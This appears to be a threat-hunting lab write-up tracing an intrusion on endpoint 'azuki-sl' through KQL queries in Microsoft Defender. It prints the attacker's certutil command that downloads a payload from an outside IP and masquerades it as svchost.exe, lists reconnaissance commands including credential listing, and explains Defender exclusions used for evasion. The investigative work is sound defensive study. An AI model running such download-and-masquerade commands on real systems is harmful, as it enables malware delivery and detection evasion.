# Threat Hunting Incident Investigation

Incident Overview

This project documents a threat-hunting investigation conducted in Microsoft Defender using Kusto Query Language, or KQL.

The goal of the investigation was to identify how an attacker accessed the endpoint, what reconnaissance commands were executed, where malware was stored, how Windows Defender was modified, how persistence was established, and which command-and-control server was contacted.

The investigation focused on the following endpoint:

azuki-sl

The suspected attack activity occurred between:

November 19, 2025 and November 20, 2025
---

# Initial Access Investigation

```jsx
Identify the source IP address used to establish a successful Remote Desktop connection to the compromised endpoint.
```

## Reviewing Process Activity

The investigation begins with the provided query:

```jsx
DeviceProcessEvents
| where DeviceName == "azuki-sl"
| where TimeGenerated between (datetime(2025-11-19) .. datetime(2025-11-20))
```

The `DeviceProcessEvents` table records processes and applications that execute on monitored devices.

This table can help identify:

- Executed programs
- Command-line activity
- Parent and child processes
- Accounts associated with processes
- Suspicious utilities used during an attack



# Identifying the Source

```jsx
Identify the Source IP address of the Remote Desktop protocol Connection 
```

From here, we need to use `DeviceLogonEvents` because  this shows us any RemoteIP that tries to login from the internet/locally:

## Why Use `DeviceLogonEvents`?

The `DeviceLogonEvents` table records authentication activity on monitored devices.

It can contain useful information such as:

- Successful and failed logons
- Account names
- Logon types
- Source IP addresses
- Remote or local authentication activity

Because the investigation is focused on a successful remote login, `DeviceLogonEvents` is the most appropriate table.

## Querying Successful Remote Logons

```jsx
DeviceLogonEvents
| where TimeGenerated between (datetime(2025-11-19) .. datetime(2025-11-20))
| where isnotempty(RemoteIP)
| where DeviceName  == "azuki-sl"
| where ActionType == "LogonSuccess"
| project TimeGenerated, DeviceName, AccountName, RemoteIP, RemoteIPType
```

The `RemoteIPType` column helps determine whether the source IP address is public or private.

A private IP address typically represents activity originating from inside a local network. A public IP address may indicate that the connection originated from the internet.

A public IP address is not automatically malicious, but an unexpected successful remote login from a public address should be investigated.



The results also revealed the user account associated with the suspicious login:

`kenji.sato`

This account was used as an important filter throughout the remaining investigation.

---

## Discovery: Network Reconnaissance

```jsx
 Identify the command and argument used to enumerate the network
```

## Why Use `DeviceProcessEvents`?

The `DeviceProcessEvents` table contains executed processes and their command-line arguments.

This makes it useful for identifying reconnaissance commands such as:

- `whoami`
- `hostname`
- `systeminfo`
- `ipconfig`
- `arp`
- `net`
- `nltest`

## Establishing a Baseline

The following query returns a small sample of process events:

```jsx
DeviceProcessEvents 
| where TimeGenerated between (datetime(2025-11-19) .. datetime(2025-11-20)) | take 10
```



This query is useful when first exploring a table because it provides a quick look at the available columns and the type of data stored in them.

Two important columns for this investigation are:

- `DeviceName`
- `InitiatingProcessCommandLine`

The `DeviceName` column identifies the endpoint where the activity occurred.

The `InitiatingProcessCommandLine` column displays the full command used to launch a process.

```jsx
 DeviceProcessEvents
 | where TimeGenerated between (datetime(2025-11-19) .. datetime(2025-11-20))
 | where DeviceName == "azuki-sl"
 | where isnotempty(InitiatingProcessCommandLine)
 | project DeviceName, AccountName, InitiatingProcessCommandLine
```




This query displays command-line activity associated with the compromised endpoint.

However, the query may still return a large number of events. The results can be narrowed further by filtering for the compromised account.

```jsx
 DeviceProcessEvents
 | where TimeGenerated between (datetime(2025-11-19) .. datetime(2025-11-20))
 | where DeviceName == "azuki-sl"
 | where AccountName == "kenji.sato"
 | where isnotempty(InitiatingProcessCommandLine)
 | project DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessCommandLine
```



This query displays processes and commands associated with the compromised account.

## Identified Network Enumeration Command

The attacker used the following command:

```
ARP.EXE -a
```

The `arp -a` command displays the local device's Address Resolution Protocol cache.

The ARP cache contains mappings between IP addresses and MAC addresses for devices that the computer has recently communicated with on the local network.

Example output:

```jsx
Interface: 192.168.1.100 --- 0x6
  Internet Address      Physical Address      Type
  192.168.1.1           00-11-22-33-44-55     dynamic
  192.168.1.25          aa-bb-cc-dd-ee-ff     dynamic
```

This command is commonly used by:

- **Network administrators** to troubleshoot connectivity issues.
- **Cybersecurity analysts** to identify devices communicating on a network.
- **Penetration testers** during the reconnaissance phase to discover potential targets on a local subnet.

Sidenote: They also ran other enumeration commands such as:

| Command | Purpose | What it Enumerates |
| --- | --- | --- |
| `hostname.exe` | Displays the computer's name | Hostname of the device |
| `whoami.exe` | Shows the current user | Logged-in user and security context |
| `systeminfo.exe` | Displays detailed system information | OS version, patches, hardware, domain, boot time, RAM, etc. |
| `findstr.exe /B "/C:OS Name" "/C:OS Version"` | Filters `systeminfo` output | Quickly extracts only the OS name and version |
| `ipconfig.exe /all` | Shows network configuration | IP addresses, MAC address, DNS servers, DHCP info, gateways |
| `ARP.EXE -a` | Displays the ARP cache | Neighboring devices (IP ↔ MAC mappings) |
| `cmdkey.exe /list` | Lists stored credentials | Saved Windows credentials that could be abused later |

---

## Defense Evasion: Malware Staging Directory

```jsx
Identify the PRIMARY staging directory where malware was stored 
```

## Why Use `DeviceFileEvents`?

The `DeviceFileEvents` table records file-related activity on monitored endpoints. The keyword “directory” lets us know that we need to be using this table

It can show when files are:

- Created
- Modified
- Renamed
- Deleted
- Moved

Because the task is focused on where malware was stored, this table provides the most relevant evidence.

## Reviewing the Table

```jsx
DeviceFileEvents
| take 10
```

This query returns a small sample of events and helps identify useful columns.

Relevant columns include:

- `TimeGenerated`
- `FileName`
- `FolderPath`
- `ActionType`
- `InitiatingProcessFileName`
- `InitiatingProcessCommandLine`

## Filtering File Creation Activity

```jsx
DeviceFileEvents
| where TimeGenerated between (datetime(2025-11-19) .. datetime(2025-11-20))
| where ActionType == "FileCreated"
| where DeviceName == "azuki-sl"
| where InitiatingProcessAccountName == "kenji.sato"
| project TimeGenerated, FileName, FolderPath, ActionType, InitiatingProcessFileName, InitiatingProcessCommandLine
```

## Identified Staging Directory

The primary malware staging directory was:

```
C:\ProgramData\WindowsCache\
```



The following command provided the strongest evidence:

```jsx
certutil.exe -urlcache -f http://78.141.196.6:8080/svchost.exe C:\ProgramData\WindowsCache\svchost.exe
```

Simply put, they grabbed a file from a web server using `certutil`, which is a built-in Windows utility, and likely from a web server they are hosting to grab that file from their device, named svchost.exe, and placed the folder in the  `C:\ProgramData\WindowsCache\` folder, then named it a regular legitimate Windows file `svchost.exe` to avoid suspicion 

- The file may be named as a legitimate Windows resource, but if they pulled this from their own device via a web server, they can modify the code within that file and name it anything after.

---

## Defense Evasion: File Extension Exclusions

```jsx
How many file extensions were excluded from Windows Defender?
```

Attackers may create Microsoft Defender exclusions to prevent selected files, folders, processes, or file types from being scanned.

For example, if `.exe` files were excluded, Defender might ignore executable files that would normally be inspected.

#### Why Use `DeviceRegistryEvents`?

Windows Defender configuration changes may be recorded as registry modifications.

The `DeviceRegistryEvents` table records activity involving Windows Registry keys and values.

It can help identify:

- Created registry keys
- Modified registry values
- Deleted registry values
- Defender exclusions
- Persistence-related registry modifications
- Security control changes

Here is what a Registry Editor looks like:



This query provides a sample of registry activity and helps identify relevant columns.

```jsx
DeviceRegistryEvents
| take 10
```

### Filtering the Relevant Registry Activity

```jsx
DeviceRegistryEvents
| where TimeGenerated between (datetime(2025-11-19) .. datetime(2025-11-20))
| where DeviceName == "azuki-sl"
| where InitiatingProcessAccountName == "kenji.sato"
| project TimeGenerated, RegistryValueName
```



The results showed that the attacker excluded:

```
3 file extensions
```

## Why This Activity Matters

Defender exclusions reduce security visibility.

By excluding selected file extensions, an attacker may be able to:

- Store malware without triggering scans
- Execute malicious scripts more easily
- Reduce the chance of quarantine
- Reuse the excluded extensions for additional payloads

The presence of multiple exclusions suggests deliberate defense evasion rather than an accidental configuration change.

---

## Defense Evasion: Temporary Folder Exclusion

```jsx
What temporary folder path was excluded from Windows Defender?
```

### Broadening the Search

The earlier query was filtered by the compromised account. However, some Defender changes may be performed by a process running under a different account or security context.

To broaden the search, the account filter was removed.

```jsx
DeviceRegistryEvents
| where TimeGenerated between (datetime(2025-11-19) .. datetime(2025-11-20))
| where DeviceName == "azuki-sl"
| project TimeGenerated, RegistryValueName
| distinct RegistryValueName
```

From here, there are only two folder paths



However, we are looking for the **Temporary** folder path, so it would be the `C:\Users\KENJI~1.SAT\AppData\Local\Temp` 

- Hence, the “Temp” at the end of the extension

Attackers tend to use the Temp folder because this is a folder where you can write, create or add files, to it without any permission restrictions. It also blends in with the regular workflow, so this technique, in combination with naming their malicious file as `svchost.exe`, would make everything appear to be a regular Windows environment

---

## Defense Evasion: Download Utility Abuse

```jsx
Identify the Windows-native binary the attacker used to download the files 
```

Attackers use legitimate system utilities and weaponize them to download malware. This completely evades detection. Identifying these techniques helps improve defensive controls

To find these files, we can use the `DeviceProcessEvents`. This table is for processes with command lines that contain URLs and outputs the file path

It is known that the answer to this is `certutil.exe` because it is a built-in Windows tool to download files 

A more targeted query could also search directly for CertUtil:

```jsx
 DeviceProcessEvents
 | where TimeGenerated between (datetime(2025-11-19) .. datetime(2025-11-20))
 | where DeviceName == "azuki-sl"
 | where isnotempty(InitiatingProcessCommandLine)
 | project DeviceName, AccountName, InitiatingProcessCommandLine
```



---

## Persistence: Scheduled Task name

```jsx
Identify the name of the scheduled task created for persistence
```

Scheduled tasks prove to be a reliable persistence across system reboots. The task name usually blends in with the legitimate Windows maintenance routine

For instance, if there was a scheduled time for the system to refresh, if the attacker finds this and the account they’ve taken over has privileges to make changes to this, they can add code to this, and when the scheduling takes place, they can maintain access to the account or even gain higher access within the system, depending on the privilege that task has 

Here, it is seen that the attacker took advantage of a scheduled update check



There is also the executable path, which is `C:\ProgramData\WindowsCache\` 

---

## Command and Control: C2 Server Address

```jsx
Identify the IP address of the C2 server
```

Command & Control servers let the attacker remotely control compromised systems. Identifying them enables network blocking and infrastructure tracking 

To do this, we need to find any outbound connections coming from those IPs, and we can use the `DeviceNetworkEvents`  or `DeviceProcessEvents` table to do so

```jsx
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-11-19) .. datetime(2025-11-20))
| where DeviceName == "azuki-sl"
| where FileName == "svchost.exe"
```




Now to expand this log so that a remote IP can be associated:



This doesn’t seem correct in this instance because this is a private IP address

Because the investigation required the external C2 server, the network event table was more appropriate.

```jsx
DeviceNetworkEvents
| where TimeGenerated between (datetime(2025-11-19) .. datetime(2025-11-20))
| where DeviceName == "azuki-sl"
| where InitiatingProcessAccountName == "kenji.sato"
| project TimeGenerated, InitiatingProcessFolderPath, RemoteIP
```

This query displays remote network connections initiated by processes running under the compromised account.




To strengthen the query, we can specify more since we already know the path name 

```jsx
DeviceNetworkEvents
| where TimeGenerated between (datetime(2025-11-19) .. datetime(2025-11-20))
| where DeviceName == "azuki-sl"
| where InitiatingProcessFolderPath == "c:\\programdata\\windowscache\\svchost.exe"
| project TimeGenerated, InitiatingProcessFolderPath, RemoteIP
```

## Identified C2 Server

The suspicious executable communicated with:

```
78.141.196.6
```

This was identified as the command-and-control server address.

The same IP address also appeared in the CertUtil download command:

```
http://78.141.196.6:8080/svchost.exe
```

This indicates that the server was used to host the malicious payload and communicate with the compromised endpoint.

---

# Investigation Timeline

The observed activity can be summarized as follows:

1. A successful remote login was made to `azuki-sl`.
2. The compromised account `kenji.sato` was used.
3. The attacker executed host and network reconnaissance commands.
4. `arp.exe -a` was used to enumerate network neighbors.
